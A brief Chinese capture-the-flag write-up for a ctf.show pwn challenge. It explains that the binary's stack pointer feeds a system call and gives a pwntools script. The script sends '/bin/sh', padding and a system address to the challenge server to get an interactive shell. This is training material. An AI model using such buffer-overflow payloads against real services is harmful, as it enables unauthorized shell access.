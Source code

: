 # 挑战简介
开启了NX，看看汇编多了啥？

# 思路
ez函数里面有system调用，然后观察汇编发现mov rdi, rsp可以知道指向了栈，所以我们可以直接写入bin/sh,搭配system的ROP，直接得到  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')
#context(arch = "i386",os = 'linux',log_level = 'debug')
#io = process("./pwn")
io = remote('pwn.challenge.ctf.show', 28170)
elf = ELF('D:\edge 下载\pwn')

system = 0x400672

payload = b'/bin/sh\x00' + b'a' * (0x2000) + p64(system)

io.sendline(payload)
io.interactive()
```

